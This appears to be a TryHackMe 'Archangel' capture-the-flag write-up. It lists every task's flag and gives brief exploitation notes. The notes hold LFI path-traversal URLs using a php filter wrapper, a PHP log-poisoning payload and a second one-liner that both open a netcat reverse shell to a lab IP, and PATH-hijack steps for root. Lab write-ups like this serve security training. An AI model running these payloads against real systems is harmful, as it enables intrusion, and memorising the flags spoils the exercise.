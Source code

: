 #TryHackMe Archangel

# Saikat Karmakar | Feb 5:2021

-------------------------------------------------------------------------------

# Task 2
1. Find a different hostname
```
mafialive.thm
```
2. Find flag 1
```
thm{f0und_th3_r1ght_h0st_n4m3}
```
3. Look for a page under development
```
test.php
```
4. Find flag 2
```
thm{explo1t1ng_lf1}
```
5. Get a shell and find the user flag
```
thm{lf1_t0_rc3_1s_tr1cky}
```

# Task 3
1. Get User 2 flag 
```
thm{h0r1zont4l_pr1v1l3g3_2sc4ll4t10n_us1ng_cr0n}
```
2. Root the machine and find the root flag
```
thm{p4th_v4r1abl3_expl01tat1ion_f0r_v3rt1c4l_pr1v1l3g3_3sc4ll4t10n}
```

===============================================================================
--
-----------
***Notes***
-----------

LFI php filter bypass
https://highon.coffee/blog/lfi-cheat-sheet/#php-wrapper-phpfilter

http://mafialive.thm/test.php?view=php://filter/convert.base64-encode/resource=/var/www/html/development_testing/mrrobot.php


http://mafialive.thm/test.php?view=php://filter/convert.base64-encode/resource=/var/www/html/development_testing/.././.././.././log/apache2/access.log

http://mafialive.thm/test.php?view=php://filter/convert.base64-encode/resource=/var/www/html/development_testing/.././.././.././../home/archangel


<?php exec('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.4.23.120 9999 >/tmp/f') ?>


echo "rm /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/sh -i 2>&1 | nc 10.4.23.120 1234 > /tmp/f" > helloworld.sh

==========================================================================
**Steps**
-------------------------------------------------------------------------------
echo '/bin/bash -p' > cp
chmod 777 cp
ls -la | grep cp
export PATH=/tmp:$PATH //bcz cp is in tmp folder 
echo $PATH
-------------------------------------------------------------------------------